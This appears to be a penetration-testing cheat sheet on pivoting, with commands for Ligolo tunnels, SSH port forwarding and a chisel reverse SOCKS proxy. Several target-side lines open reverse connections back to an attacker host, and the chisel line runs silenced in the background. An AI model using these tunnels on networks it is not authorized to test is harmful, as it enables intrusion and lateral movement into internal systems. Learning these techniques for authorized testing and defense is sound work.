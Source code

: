 ### Ligolo
###### This is great for tunneling to another internal network.
```
#Create network interface for ligolo
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

#Start proxy on your machine
./lin-proxy -selfcert -laddr 0.0.0.0:7000

#Start agent on target machine
./lin-agent -connect <attacker IP here>:7000 -ignore-cert
./win-agent -connect <attacker IP here>:7000 -ignore-cert

#Add network routes on your machine
sudo ip route add <ip-add>/24 dev ligolo

#Start ligolo session and start routing traffic
session
start

#To add a listener to catch traffic from the further internal network back to your host.
#Enter session on host.
session

#Add listener
#Anything sent to this host on port 1234 will go to our kali on 4444.
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444

#Check lisener is active
listener_list

```

### Port Forwarding

###### This is great for forwarding just one local port on the target to your machine.

#### Local
```
#Forwards a port from a remote machine to your kali machine.
#Run this on the kali machine.
ssh -L <kali_port>:localhost:<target_port> <target_username>@<target_ip>

#Check if the port is listening (run on both target and host.)
ss -ntplu

#Target port examples
mysql -h localhost -p <target_port>
curl http://localhost:<target_port>
```

#### Dynamic Remote
This is good for reaching multiple internal local ports.

```
#On your machine
chisel server --port 80 --reverse

#On the target machine
chisel client <kali_ip>:80 R:socks > /dev/null 2>&1 &

#Add to /etc/proxycahins4.conf file
socks5	127.0.0.1 1080

#Sending traffic (can also configure foxy proxy too.)

#For reaching ports on that host
proxychains <command> <localhost>:<target_port>

#For reaching ports on the wider internal network
proxychains <command> <int_host>:<target_port>
```


